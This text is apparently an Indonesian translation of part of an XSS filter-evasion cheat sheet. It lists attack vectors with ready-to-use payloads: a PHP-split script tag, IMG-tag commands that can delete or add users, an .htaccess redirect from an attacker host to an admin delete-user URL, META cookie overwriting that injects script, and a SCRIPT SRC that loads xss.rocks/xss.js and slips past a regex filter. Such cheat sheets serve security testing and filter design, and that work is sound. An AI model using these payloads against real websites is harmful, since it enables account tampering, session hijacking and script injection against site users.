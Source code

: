 ### PHP

Serangan ini mengharuskan PHP diinstal di server. Sekali lagi, jika Anda dapat menjalankan skrip apa pun dari jarak jauh seperti ini, mungkin ada masalah yang jauh lebih serius:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### Perintah Tertanam IMG

Serangan ini hanya berfungsi jika ini disuntikkan (seperti papan web) di halaman web di balik perlindungan kata sandi dan perlindungan kata sandi tersebut berfungsi dengan perintah lain di domain yang sama. Ini dapat digunakan untuk menghapus pengguna, menambahkan pengguna (jika pengguna yang mengunjungi halaman tersebut adalah administrator), mengirim kredensial ke tempat lain, dll. Ini adalah salah satu vektor XSS yang jarang digunakan tetapi lebih berguna:

```html
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

#### Perintah Tertanam IMG bagian II

Ini lebih menakutkan karena sama sekali tidak ada pengenal yang membuatnya tampak mencurigakan selain tidak dihosting di domain Anda sendiri. Vektor menggunakan 302 atau 304 (yang lain juga berfungsi) untuk mengarahkan gambar kembali ke perintah. Jadi `<IMG SRC="httx://badguy.com/a.jpg">` yang normal sebenarnya bisa menjadi vektor serangan untuk menjalankan perintah sebagai pengguna yang melihat tautan gambar. Berikut adalah baris `.htaccess` (di bawah Apache) untuk menjalankan vektor:

```log
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

(Terima kasih kepada Timo untuk sebagian dari ini)

### Manipulasi Cookie

Metode ini cukup tidak jelas tetapi ada beberapa contoh di mana `<META` diizinkan dan dapat digunakan untuk menimpa cookie. Ada contoh lain dari situs di mana alih-alih mengambil nama pengguna dari database, nama pengguna tersebut disimpan di dalam cookie untuk ditampilkan hanya kepada pengguna yang mengunjungi halaman tersebut. Dengan menggabungkan kedua skenario ini, Anda dapat mengubah kuki korban yang akan ditampilkan kembali kepada mereka sebagai JavaScript (Anda juga dapat menggunakan ini untuk mengeluarkan orang atau mengubah status pengguna mereka, membuat mereka masuk sebagai Anda, dll.):

```html
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### XSS Menggunakan Enkapsulasi Kutipan HTML

Serangan ini awalnya diuji di IE sehingga hasil yang Anda dapatkan mungkin berbeda. Untuk melakukan XSS pada situs yang mengizinkan `<SCRIPT>` tetapi tidak mengizinkan `<SCRIPT SRC...` melalui filter regex `/\<script\[^\>\]+src/i`, lakukan hal berikut:

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

